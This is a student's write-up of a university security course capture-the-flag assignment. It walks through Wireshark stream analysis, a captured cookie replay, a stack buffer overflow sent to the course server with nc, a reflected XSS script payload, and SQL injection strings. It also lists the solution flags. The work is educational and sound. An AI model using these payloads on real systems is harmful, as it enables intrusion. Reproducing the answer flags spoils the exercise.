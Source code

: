 ```yaml
---
layout: post
published: false
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install x32 in ubuntu
```bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
```
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

# SQL Statment

## Level 1
- Insert: `1'!='1` in textbox

> `1` and `1` are not equal (Character)

Flag: `flag{WhO_dO3sN't_LOv3_Fr33_M4rk5!}`

## Level 2
- Insert: `1!=1; --or ' or 1=1-- or 1=1--` in textbox

Working:
- The `--` becomes a comment
- First query: Ignores the stuff behind the `--`
- Second query: Ignore the front before the `--` since its in quotes 
Flag: `flag{pR3qU3l_1s_sO_mucH_eZ13r_wh3n_c0mP4r3D_tO_tH1$}`

## Level 3
- Insert: `1!=1; --or ' or 1=1-- or 1=1--'" != "a`

Working:
- From Part 2, insert: `" ! = "a`
- This covers the front " for query 3
- Essentially for query 3, it is just querying `"a"!="a"`

flag{w0w_4R3nt_y0u_4_S3Qu3L_M4$T3R!!!}


